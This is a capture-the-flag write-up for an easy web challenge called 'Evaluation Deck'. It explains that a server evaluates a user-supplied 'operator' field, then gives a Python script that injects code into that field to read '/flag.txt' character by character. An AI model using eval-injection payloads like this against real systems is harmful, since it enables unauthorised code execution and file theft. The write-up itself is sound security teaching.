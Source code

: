# Evaluation Deck

![web](https://img.shields.io/badge/category-web-brightgreen) <br>
![difficulty](https://img.shields.io/badge/difficulty-easy-green) <br>
![solvetime](https://img.shields.io/badge/solved-durring%20event-green)

## Description

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

Provided files are:
- [challenge](challenge)
- [config](config)
- [build-docker.sh](build-docker.sh)
- [Dockerfile](Dockerfile)
- [flag.txt](flag.txt)

## Solving process

Upon inspecting the source, we can se the user input for operator is evaluated and then summed up with other two arguments. We can exfiltrate flag letter by letter from the host machine:

```python
import requests

URL = "insert URL"
s = requests.Session()

r = s.get(URL)
def get_char(i):
    payload = {
        "current_health": "0",
        "attack_power": "0",
        "operator": "+ ord(open('/flag.txt', 'r').read()[{}]) +".format(i)
    }
    r=s.post(URL + "/api/get_health", json=payload)
    return r.json()["message"]
i = 0
while True:
    try:
        c=get_char(i)
        print(chr(c), end="")
        i +=1
    except:
        break
```

**Flag:** **
